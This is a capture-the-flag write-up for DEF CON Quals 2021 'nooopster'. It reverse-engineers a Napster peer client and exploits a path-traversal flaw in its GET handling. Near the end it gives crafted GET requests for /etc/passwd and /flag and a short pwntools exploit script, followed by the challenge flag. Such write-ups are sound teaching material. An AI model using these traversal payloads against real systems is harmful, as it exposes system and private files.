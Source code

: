 # DEF CON CTF Quals 2021

### Solved by: Dayton Hasty ([dayt0n](https://github.com/dayt0n)), Will Green ([Ducky](https://github.com/wlg0005))
### Challenge: nooopster
### Category: PWN, RE 

## Description:

#### Sharing files like its 1999. Connect to my network with OpenVPN.
#### nooopster.challenges.ooo 1999

## Walkthrough:

We're provided an OpenVPN config file and key:

```bash
dev tun
secret openvpn.shared.key
ifconfig 192.168.5.2 192.168.5.1
remote nooopster.challenges.ooo 1999 tcp-client
verb 3
```

Initially the config file contained the wrong remote IP so we were having trouble connecting but with some sharp eyes from Dayton, we were able to replace the incorrect IP with `nooopster.challenge.ooo 1999`. This was eventually fixed by the challenge authors.

Using OpenVPN we can connect like so:

`sudo openvpn nooopster.ovpn`

Based off the OpenVPN config file we know that our local VPN endpoint is `192.168.5.2` and the remote VPN endpoint is `192.168.5.1`. So let's try running a nmap scan on `192.168.5.1`:

```bash
$ sudo nmap -sC -sV -oN nmap/initial 192.168.5.1

PORT     STATE SERVICE         VERSION
7070/tcp open  napster         MLDonkey multi-network P2P client
8888/tcp open  sun-answerbook?
```

Because nmap told us that this was a MLDonkey server, we initially tried connecting via netcat to see if we could supply MLDonkey commands; as well as downloading MLDonkey and other eDonkey clients. All of which didn't work for us.

After some time, we took a closer look at port `8888` and realized that it was actually the standard port for `Napster` which made a lot more sense given the challenge name `nooopster`. 

Doing some research we were able to find a linux napster client called [`Nap`](http://nap.sourceforge.net/). 

Downloading the i386 Debian package and installing like so:

```bash
$ sudo dpkg --add-architecture i386

$ sudo apt-get update

$ sudo dpkg -i nap_1.5.2-2_i386.deb
```

We can now connect to the Napster server like so `nap -s 192.168.5.1:8888`:

![](nooopster%20Writeup.001.png)

After reading some [documentation](http://nap.sourceforge.net/userguide.html) we were able to list the channels with the `/clist` command which revealed a channel called `#chat`. Then we connected to the channel:

`/join #chat`

![](nooopster%20Writeup.003.png)

There appeared to be a bot that repeatedly told us to check out his files. So let's do that! We can use the `/browse nooopster` command to see what files he has:

![](nooopster%20Writeup.004.png)

Nice, that's a lot of 90s songs (which are actually all rickrolls). But if you continue scrolling there's one interesting file at the very end:

![](nooopster%20Writeup.005.png)

So let's download it and run `file`:

```
$ file nooopster

nooopster: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=35b1628f65a3b5d518bc802d5cbe122bee0bf226, for GNU/Linux 3.2.0, stripped
```

Since this is an ELF binary, we will throw it into Binary Ninja and check out  `main()` (functions have been renamed for readability purposes):

![main function](./main_func1.png)

Knowing that napster is a peer-to-peer file sharing service, the `chdir("shared")` call lead us to believe that this was the binary for the client the `nooopster` user was using on port 7070. 

It appears as though the initial connection is done with the first `do_connect()` and `send/recv_nap_msg()` call sequences. 

Let's check out that `pthread_create()` call:

![pthread_create](./pthread_create.png)

It appears that a new thread is being created that executes the `start_routine_1a80()` function, which starts out by creating a new socket and creating a new thread to handle the connections to the server:

![start_routine_1a80](./start_routine_1a80.png)

Now, we can take a look at the `start_routine()` function in the above `pthread_create()`:

![start_routine](./start_routine.png)

After digging around in the [napster protocol specification](http://opennap.sourceforge.net/napster.txt), we are able to get a better idea of what is going on here. This above code appears to be for use in handling file download requests. As the protocol specification states in section *5.1  Normal Downloading*, for each download request, a 'GET' string is sent. The code appears to check for that 'GET' string before processing the rest of the message. 

Scrolling down into the function, we find a simple logic vulnerability in this program: 

![vulnerability](./vuln.png)

After receiving the filename via the 'GET' command, the function checks to make sure the file path starts with `\shared\`. Then, since it assumes it is running in the `\shared\` directory already, it removes the `\shared\` portion of the path and processes everything after it as a file of its own. 

So, when we asked for the `nooopster` binary in the napster client, it sent a request to the vulnerable client that looked something like this:

```
GETdayt0n "\shared\nooopster" 0
```

We can take advantage of the fact that the vulnerable client processes everything after the `\shared\` string and download virtually any file on the remote client's system. To do this, we would need to send a request that looked like:

```
GETdayt0n "\shared\/etc/passwd" 0
```

This way, the program will attempt to open, read, and send the contents of the file at `/etc/passwd`.

The tricky part was actually triggering this bug in the first place. 

It appeared that in order for us to send our exploit and retrieve the flag, we not only had to connect to the Napster server, but we also had to first download a file manually through the Napster, such as the nooopster binary from before. We made a [`check.py`](./check.py) script to ensure that we were able to send requests to the server after the manual download:

```python
from pwn import *

p = remote('192.168.5.1',7070)
print(p.recv())
p.sendline(r'GETducky "\shared\nooopster" 0')
p.interactive()
```

![](nooopster%20Writeup.006.png)

Once we confirmed that the server would respond to our requests, we just have to update the script to grab `/flag`:

```python
from pwn import *

p = remote('192.168.5.1',7070)
print(p.recv())
p.sendline(r'GETducky "\shared\/flag" 0')
p.interactive()
```

Running the script, we successfully retrieve the flag!

### Flag: OOO{M4573R_0F_PUPP375}